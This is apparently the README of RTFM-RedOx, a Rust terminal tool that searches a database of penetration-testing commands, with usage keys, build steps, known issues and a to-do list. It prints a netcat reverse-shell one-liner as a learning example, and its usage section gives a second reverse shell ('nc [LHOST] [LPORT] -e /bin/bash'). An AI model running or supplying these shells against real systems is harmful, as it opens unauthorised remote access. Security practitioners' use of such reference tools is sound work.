 RTFM-RedOx is meant to be an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) (inspired by the book, Red Team Field Manual) as well as something that works similarly to [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin.  All without the need to leave your terminal to search through notes or open a browser window, or continually run a python script with a lot of switches you'll never remember.  It's basically like having a terminal history and history search for commands you never type in your terminal but often type when you have a shell on a remote host or when interacting with a vulnerable web app.  The database does also contain many commands you'd also run on your local machine for things like nmap, impacket scripts (adding as I go), crackmapexec, and others.

In addition to its utility this can also be a great learning resource through the one or more reference links to web content or video material associated with each command.  For example, the following reverse shell one liner has been used by many but is probably not all that well understood.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f
```
0xdf has a [great video](https://www.youtube.com/watch?v=_q_ZCy-hEqg) that breaks down each part of that command and explains it in detail. I will be updating references for commands in the database that include deep dive explanations, preferrably to video content, that provide a better understanding for more complex commands related to Kerberos, ADCS or Windows authentication in general.  The commands in the database from the original RTFM project do have links to websites and many of those are good but some need updating or additional references to more in depth explanations. 

I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that hasn't been updated in almost 6 years so I will be gradually adding new commands and pushing the edited db file to the repository.    


## Usage
```
Ctrl+r           Enter quick search mode to dynamically find commands as you type.
Ctrl+c           Copy currently selected command to clipboard.
Ctrl+u           URL-encode and then copy currently selected command to clipboard.
Crtl+h or hist   Display selectable history of already selected commands.
Ctrl+v           Paste from clipboard
info             Display info on the currently selected command.
env              Show user variables that have already been set.
add -c           Add a command to the database e.g. 'add -c nc [LHOST] [LPORT] -e /bin/bash'
update           Update a database column in the selected command
                 e.g. comment, command, author or references
                 Example: update references http://blog.gregscharf.com
Esc              Exit current mode.
help             Display help
Ctrl+q or exit   Exit redOx.
```

![demo](./redox-demo.gif)


## To Use
```bash
#if you don't already have rust installed
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

git clone https://github.com/gregscharf/RTFM-Redox.git
cd RTFM-Redox
cargo run --release
```

## Known Issues

**Debian distributions**: The linker will fail during the build process unless the following packages are installed.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

**Kali**: Sometimes the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in the redox CLI. And in some cases Ctrl+h stops working, so I've added a 'hist' command for when that occurs until I figure out some of the intermittent key stroke issues. 

**Arch**: No known issues

**Mac M1**: Screen flicker when using up/down arrows 

**Windows**: Not supported because the Termion crate does not work on windows.  I'll be switching to crossterm at some point.


## To Add
- [x] After adding a new command to the db select it as the current command.
- [ ] Search checks against both command and comment field?
- [ ] Continue updating database with newer commands for things like Crackmapexec,ffuf,feroxbuster,Rubeus,Impacket, etc.
- [ ] Update command reference links to better and more up to date content, preferably adding links to video content when possible.
- [ ] Display ids next to references so that if necessary they can be deleted from the db through the redox CLI.  
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Add a local references option via the soon to be added config file for links to notes on the local filesystem.
- [ ] Left/right arrow keys to edit already typed or pasted in command.  Really only useful when typing a long command to add to or update the database.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  At the moment, tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Tab auto complete for best match while in search mode.
- [ ] Switch from termion to crossterm for Windows support.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected.

## To Fix
- [x] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Sometimes backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.
- [ ] Switch from termion to crossterm to add support for Windows consoles.      
- [ ] Switch to rusqlite and dump sqlx to avoid openssl static build nightmare to allow for release builds.

